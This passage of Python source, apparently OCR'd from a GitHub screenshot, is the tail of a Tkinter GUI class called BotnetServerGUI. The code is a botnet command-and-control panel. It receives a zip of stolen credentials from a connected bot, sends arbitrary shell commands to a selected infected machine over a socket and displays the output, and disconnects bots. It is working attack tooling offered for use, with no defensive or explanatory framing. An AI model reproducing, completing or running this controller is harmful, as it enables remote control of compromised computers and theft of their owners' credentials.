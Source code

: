                 result = receive_creds_zip(client_socket)
                self.log_command(cmd, result)
        except Exception as e:
            self.log_command(cmd, f"[!] Error: {e}")

    # Log output for shell tab
    def log_shell(self, msg):
        def _log():
            self.shell_output.config(state="normal")
            self.shell_output.insert("end", msg + "\n")
            self.shell_output.see("end")
            self.shell_output.config(state="disabled")
        self.master.after(0, _log)

    # Send shell command to client
    def send_shell_command(self):
        cmd = self.shell_entry.get().strip()
        if not cmd or not self.selected_bot or self.selected_bot not in self.bots:
            return
        self.log_shell(f">>> {cmd}")
        self.shell_entry.delete(0, 'end')
        threading.Thread(target=self.handle_shell_command, args=(cmd,), daemon=True).start()

    def handle_shell_command(self, cmd):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            client_socket.sendall(cmd.encode())
            result = b""
            while True:
                chunk = client_socket.recv(4096)
                if not chunk:
                    break
                result += chunk
                if b"<end_of_result>" in result:
                    break
            output = result.decode(errors="ignore").replace("<end_of_result>", "").strip()
            self.log_shell(output)
        except Exception as e:
            self.log_shell(f"[!] Error: {e}")

    # Disconnect from bot
    @require_bot
    def disconnect(self):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            client_socket.sendall(b"exit")
            client_socket.close()
            self.remove_bot(self.selected_bot)
        except Exception as e:
            self.log_command("exit", f"[!] Error: {e}")

# Main entry point: start GUI
if __name__ == "__main__":
    root = tk.Tk()
    root.geometry("1150x700")
    root.configure(bg=MAIN_BG)
    app = BotnetServerGUI(root)
    root.mainloop()